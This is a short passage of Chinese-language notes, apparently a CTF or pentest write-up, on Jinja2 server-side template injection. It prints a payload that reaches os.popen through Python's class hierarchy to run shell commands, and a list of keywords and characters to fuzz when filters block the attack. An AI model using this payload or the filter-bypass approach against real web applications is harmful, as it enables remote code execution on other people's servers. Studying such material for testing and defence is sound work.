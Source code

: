 

同时，也可以将命令修改成变量，便于修改

```
{{set cmd=***}}{{print(c.__class__.__mro__[3].__subclasses__()[138].__init__.__globals__['popen']('cmd').read())}}
```



### 函数执行与绕过

#### 模糊测试：可以通过burp之类来测一测关键词屏蔽

此处如果不出现相关答案，只会是错误挥着ban了

```
class
bases
mro
subclasses
getitem
init
globals
builtins
import
url_for
lipsum
config
popen
request
''
""
[]
()
.
+
_
 
0
1
2
3
4
5
6
7
8
9
$
%

```
